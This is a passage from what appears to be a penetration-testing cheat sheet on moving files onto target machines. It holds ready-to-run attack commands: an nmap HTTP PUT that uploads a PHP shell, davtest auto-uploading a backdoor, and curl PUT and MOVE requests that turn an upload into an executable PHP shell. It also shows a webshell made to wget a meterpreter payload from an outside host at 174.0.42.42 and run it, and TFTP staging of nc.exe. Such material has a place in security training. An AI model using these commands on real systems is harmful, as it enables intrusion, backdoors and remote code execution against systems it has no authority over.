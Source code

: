       The file can be run using the following syntax:

      `C:\temp\cscript.exe webdl.vbs`

-   Mounting File Shares

    -   Mount NFS share to /mnt/nfs
        mount $ip:/vol/share /mnt/nfs

-   HTTP Put
    nmap -p80 $ip --script http-put --script-args
    http-put.url='/test/sicpwn.php',http-put.file='/var/www/html/sicpwn.php

-   Uploading Files
    -------------------------------------------------------------------------------------------------------------

    -   SCP

        scp username1@source_host:directory1/filename1 username2@destination_host:directory2/filename2

        scp localfile username@$ip:~/Folder/

        scp Linux_Exploit_Suggester.pl bob@192.168.1.10:~


    -   Webdav with Davtest- Some sysadmins are kind enough to enable the PUT method - This tool will auto upload a backdoor

        `davtest -move -sendbd auto -url http://$ip`

        https://github.com/cldrn/davtest

        You can also upload a file using the PUT method with the curl command:

        `curl -T 'leetshellz.txt' 'http://$ip'`

        And rename it to an executable file using the MOVE method with the curl command:

        `curl -X MOVE --header 'Destination:http://$ip/leetshellz.php' 'http://$ip/leetshellz.txt'`

    -   Upload shell using limited php shell cmd
        use the webshell to download and execute the meterpreter
        \[curl -s --data "cmd=wget http://174.0.42.42:8000/dhn -O
        /tmp/evil" http://$ip/files/sh.php
        \[curl -s --data "cmd=chmod 777 /tmp/evil"
        http://$ip/files/sh.php
        curl -s --data "cmd=bash -c /tmp/evil" http://$ip/files/sh.php

    -   TFTP
        mkdir /tftp
        atftpd --daemon --port 69 /tftp
        cp /usr/share/windows-binaries/nc.exe /tftp/
        EX. FROM WINDOWS HOST:
        C:\\Users\\Offsec>tftp -i $ip get nc.exe

    -   FTP
        apt-get update && apt-get install pure-ftpd

        \#!/bin/bash
        groupadd ftpgroup
        useradd -g ftpgroup -d /dev/null -s /etc ftpuser
        pure-pw useradd offsec -u ftpuser -d /ftphome
        pure-pw mkdb
        cd /etc/pure-ftpd/auth/
        ln -s ../conf/PureDB 60pdb
        mkdir -p /ftphome
        chown -R ftpuser:ftpgroup /ftphome/
